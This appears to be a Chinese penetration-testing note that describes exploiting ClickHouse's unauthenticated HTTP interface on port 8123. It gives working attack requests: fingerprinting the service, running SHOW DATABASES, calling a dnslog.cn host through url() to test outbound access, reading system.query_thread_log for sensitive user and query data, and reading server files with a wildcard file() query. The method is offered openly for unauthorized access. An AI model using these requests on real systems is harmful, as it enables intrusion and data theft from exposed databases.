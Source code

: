 # ClickHouse 8123端口

## 关于

<a-checkbox checked>默认情况下，clickhouse-server会在8123端口上监控HTTP请求（这可以在配置中修改）。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它会返回一个字符串 «Ok.»（结尾有换行）。可以将它用在健康检查脚本中。</a-checkbox></br>

<a-checkbox checked>如果你发送了一个未携带任何参数的GET /请求，它返回响应码200和OK字符串定义，可在[Http服务响应配置](https://clickhouse.tech/docs/zh/operations/server-configuration-parameters/settings/#server_configuration_parameters-http_server_default_response)定义(在末尾添加换行)</a-checkbox></br>

![img](../../../.vuepress/public/img/1628588206029-001c2f56-3c81-460f-9c1e-e9591ef9a545.png)

这里可以看到 ClickHouse 存在着的接口由于没有鉴权，则任意访问者都可以执行SQL语句获取数据



## 攻击方法

首先确定是否使用了 ClickHouse 数据库的接口

![img](../../../.vuepress/public/img/1628596147024-6b26b99d-8bdf-4a21-b240-f607be168a27.png)

根据文档得知，正常返回为 Ok. , 且存在 X-ClickHouse-Summary 作为返回包的 Header

![img](../../../.vuepress/public/img/1628589399544-1c658858-3310-4fcd-81d5-b50ed0f0696f.png)



测试是否可以执行SQL命令, 部分会开启身份验证导致未授权执行失败

```php
/?query=SHOW%20DATABASES
```

![img](../../../.vuepress/public/img/1628596162773-fc4906c3-fd7d-4ede-a8d7-84a448ff4204.png)

成功执行语句获取数据，执行其他命令探测出网

```php
/?query=SELECT%20*%20FROM%20url('http://jahl09.dnslog.cn','txt','column1%20UInt32')%20LIMIT%202
```

![img](../../../.vuepress/public/img/1628596284780-19788c3d-bd1b-4d95-97e9-6a9a16fd0138.png)

![img](../../../.vuepress/public/img/1628596307830-d5958eea-ede0-4c17-8573-e77b07b362d4.png)

其中也可以查看 system库中的执行记录表来获取最近执行的所有SQL语句来快速定位可利用的信息

(获取敏感用户信息，数据库名以及数据表名)

```php
/?query=SELECT%20*%20FROM%20system.query_thread_log
```

![img](../../../.vuepress/public/img/1628597494586-5ea6c6ea-6526-44e0-b4b2-c92ae0fcb2d5.png)



由于默认配置中的可读路径默认 (**配置文件位置：/etc/clickhouse-server/config.xml**)

因此只能读取下面路径中的文件，当目标中曾在该路径导入文件且没有删除的情况下，可通过测试获取敏感文件信息，获取数据文件



<a-checkbox checked>/var/lib/clickhouse/user_files/</a-checkbox></br>

![img](../../../.vuepress/public/img/1628598316644-34da7b10-b2c6-45f1-a4ff-d5c11be372c7.png)

其中读取时可以利用通配符跳过不知道文件名的情况获取文件信息

![img](../../../.vuepress/public/img/1628600107499-7067f4c9-bc8a-4540-84e6-ceafd4dfdb42.png)

```php
/?query=SELECT%20*%20FROM%20file('*'%2C%20'CSV'%2C%20'column1%20String%2C%20column2%20String%2C%20column3%20String')%20LIMIT%203%3B"
```

![img](../../../.vuepress/public/img/1628600056235-beb60a43-c6bd-499c-8383-647185379ed1.png)